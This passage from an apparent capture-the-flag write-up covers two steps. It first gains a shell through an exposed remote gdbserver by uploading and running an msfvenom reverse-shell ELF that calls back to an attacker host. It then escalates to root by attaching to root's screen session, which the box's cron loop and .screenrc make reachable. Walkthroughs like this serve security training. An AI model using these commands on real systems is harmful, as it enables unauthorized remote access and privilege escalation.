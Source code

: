 Create a reverse shell file

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf
```
Run gdb in terminal with binary.elf, without it it won't work  `gdb -q binary.elf` Then connect to remote server

```
target extended-remote 10.10.11.125:1337
```

then put binary.elf file on server `remote put binary.elf binary.elf` then set which file you want to debug on remote system with 
`set remote exec-file /home/user/binary.elf`. Then `run` it. On you listener you will get a shell

![Screenshot from 2022-04-26 13-02-08](https://user-images.githubusercontent.com/79413473/165246298-5d9f12b7-080c-4d41-8d1c-aa551ceaccc9.png)

upgrade to ptty shell

## Privilege escaltion: Connecting to root's screen session

Now if you remember when we were enumerating processes ,there was one more interesting process running on server

```
851: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```
We could have seen this in processes running too, `ps aux` 
Screen is a binary like tmux which can start multiple sessions from one window and preserve them in background. This command is continously using find command and executing screen in detached mode and session name is root.

Now if you run screen a new directory will be created in */var/run/screen/* i.e. S-user. Now if you create new session you will have new socket file in it. `screen -dms name -s /bin/bash`

![Screenshot from 2022-04-26 13-37-07](https://user-images.githubusercontent.com/79413473/165252766-f8963519-d7c6-44cf-9fdb-d7bba262d94e.png)

Now in order to list session of particlular user it needs a trailing `/` after username otherwise it doesn't show.

![Screenshot from 2022-04-26 13-39-19](https://user-images.githubusercontent.com/79413473/165253179-3b394855-bd10-4fd1-a799-4f520f9ee8ed.png)

0xdf showed that it is not possible to attach to other people sessions unless explicitly listed. After getting root we will see from file 
*/root/.screenrc* that user was allowed to connect to root's session.

```
multiuser on
acladd user
shell -/bin/bash
```

Now there are multile ways to connect to a detached session. We will use `screen -R`.
